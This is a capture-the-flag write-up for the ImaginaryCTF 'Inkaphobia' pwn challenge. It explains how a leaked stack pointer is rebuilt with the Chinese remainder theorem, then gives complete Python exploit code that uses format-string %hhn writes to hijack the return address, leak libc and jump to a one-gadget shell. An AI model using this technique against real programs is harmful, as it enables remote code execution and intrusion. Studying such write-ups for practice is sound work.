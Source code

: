 # Inkaphobia

## Task

Seems that random.org limits how much entropy you can use per day. So why not reuse entropy?

* [inkaphobia](https://imaginaryctf.org/r/505D-inkaphobia)
* [libc.so.6](https://imaginaryctf.org/r/D39E-libc.so.6)
* nc chal.imaginaryctf.org 42008

## Solution

When we open the binary, we see that it protects some
relocation stuff; we also see that we have full RELRO.
This just means that we can't overwrite stuff in the
GOT to call unintended functions that way. Next we see
that it initializes a random variable and then... Uses
the pointer to that in another function to print a random
number below the value you entered.

Lastly back in the main function there's a printf
exploit possible with user input printed out. We can exploit
that by overwriting one byte at a time with the `%hhn` modifier
and by using the correct address (Which can be in our string,
so we can write wherever we want).

Sadly this write-anything-anywhere is relatively useless.
Even though the binary doesn't have PIE, we can't overwrite
anything in it's address space because of the RELRO. This
means we first need to find either the libc base address
to overwrite something like the on exit hook or similar or
we have to find the stack address (because we need a pointer
to where we want to write, we can't simply do `%5$hhn` and
expect it to write at the fifth word on the stack, because
it takes the address there and writes to wherever that points)

We are lucky because the binary leaks information about the stack
pointer as the random variable is not the value from the rand()
function but actually the pointer to it. Sadly we can only get that
value modulo a value between 1 and 0x7f. Luckily for us there
is the ever so useful chinese remainder theorem coming to the
rescue. So we get the remainder modulo some prime numbers
(They could also be other numbers as long as they are relative
coprime). I chose to go with the only prime variant, so I ended
up using `[0x7F, 0x71, 0x6D, 0x6B, 0x67, 0x65]`. Going through
all these values and then using the chinese remainder theorem
will give us a unique value from 0 to 0x0195682d1ec3. However
we know that the stack address will be at 0x7ff000000000 or higher.
Luckily we see that if we add the product of the primes we
will get a unique value in the range 0x7ff000000000 to
0x800000000000, which means we can just add the value
until we are in that range.

My somewhat ugly code for this whole procedure looks like this:

```python
    io.recvuntil(b"RNG service!")
    nums = [0x7F, 0x71, 0x6D, 0x6B, 0x67, 0x65]
    prod = 1741209542339
    rem = []

    for i in range(6):
        io.sendline(str(nums[i]).encode())
        io.recvuntil(b"number: ")
        rem.append(int(io.recvline()))

    print(rem)
    s = 0
    for r,mi in zip(rem, nums):
        Mi = prod // mi
        s += r * pow(Mi, -1, mi) * Mi
    s = s%prod
    while s < 0x7ff000000000:
        s += prod
```

After this we have the pointer to the stack variable in s,
so we can subtract a bit from it to get a pointer to the
return address on the stack. Next we can use our 
write-anything-anywhere primitive to overwrite the return
address such that we return to the main function itself.

We also include a format string part which leaks the actual
return address (Before we overwrite it), such that we get
a pointer into `__libc_start_main` from which we can calculate
the libc base address.

In the second iteration of the main function we don't need to
leak anything technically since we know that the stack pointer
will just be 16 greater than before (Because we popped the return
address and rbp). So now we just need to overwrite the return address
with the address of a onegadget in libc (Which luckily there
is one which works well at offset 0xe6c81)

So the final exploit looks like this:

```python
libc = ELF("./libc.so(1).6")
onegadget = 0xe6c81

def addr_to_increments(target_addr):
    tgt = [target_addr&0xFF]            # first byte is just the lowest byte of the address
    if tgt[0] == 0: tgt[0] = 256        # if its zero, we don't want 0 since we can't print that many characters
    for i in range(7):                  # for the rest of the bytes
        prev = target_addr&0xFF         # we get the previous byte (current counter value)
        target_addr >>= 8               # shift the target by 8 so we can...
        n = (target_addr - prev) & 0xFF # get the next byte, subtract the previous from it (to get the increment we need)
        if n == 0: n = 256              # we always print at least one zero, so print 256 instead
        tgt.append(n)                   # append the byte
    tgt[0] -= 18                        # Our payload will print a pointer first, to ensure everything's good, I made that 18 chars
    return tgt

def craft_payload(tgt):
    payload = b"%75$18p"                    # print the return address (the one which we haven't overwritten yet)
    payload += b"".join([f"%48${tgt[i]}d%{40+i}$hhn".encode() for i in range(8)])   # overwrite each byte, the addresses start
                                                                                    # after 0x100 bytes, which means %32$ after
                                                                                    # the start of the string which starts %8$
                                                                                    # So a total of 40+i for each address
    assert(len(payload) <= 0x100)           # make sure we aren't over the limit
    payload += cyclic(0x100 - len(payload)) # fill up to 0x100 bytes
    for i in range(8):
        payload += p64(s+i) # %40$-%47$     # the addresses of each byte in the return address
    payload += p64(0)                       # the value we print, we don't want a random value here, 
                                            # since we want accurate control over the
                                            # amount of bytes printed
    return payload


io = start()

# Calculate the stack address based on the leaks using CRT
io.recvuntil(b"RNG service!")
nums = [0x7F, 0x71, 0x6D, 0x6B, 0x67, 0x65]
prod = 1741209542339
rem = []
for i in range(6):
    io.sendline(str(nums[i]).encode())
    io.recvuntil(b"number: ")
    rem.append(int(io.recvline()))
info("Got some remainders: %s", str(rem))
s = 0
for r,mi in zip(rem, nums):             # oh look it's my very ugly CRT implementation
    Mi = prod // mi
    s += r * pow(Mi, -1, mi) * Mi
s = s%prod
while s < 0x7ff000000000:               # make sure we're in stack range
    s += prod

s += 0x21C                              # address to the end of stack ==> return address
info("Found the stack address: %x", s)

target_addr = 0x400978 # main
tgt = addr_to_increments(target_addr)   # calculate how much we need to increase a counter for each byte
io.recvline()
payload = craft_payload(tgt)            # craft the payload

io.sendline(payload)
info("waiting...")
io.recvuntil(b", ")
io.recvuntil(b"x")
x = int(io.recvuntil(b" "),16)
libc.address = (x - libc.sym.__libc_start_main) & ~0xFFF
info("Libc base at: %x", (libc.address))

# Now do it again

io.recvuntil(b"RNG service!")
for i in range(6): io.sendline(b"1") # waste the RNG
io.recvuntil(b"name?")

s += 16                                 # we popped two things from the stack, thus it will be increased by 16
target_addr = (0xe6c81 + libc.address)  # the onegadget address
tgt = addr_to_increments(target_addr)   # recalculate the increments
payload = craft_payload(tgt)            # craft the payload

io.sendline(payload)
io.recvuntil(b"\x7f")

io.interactive()
```

Read the flag.txt and we get

`ictf{th3_3ntr0py_th13f_str1k3s!_38ba8f19}`
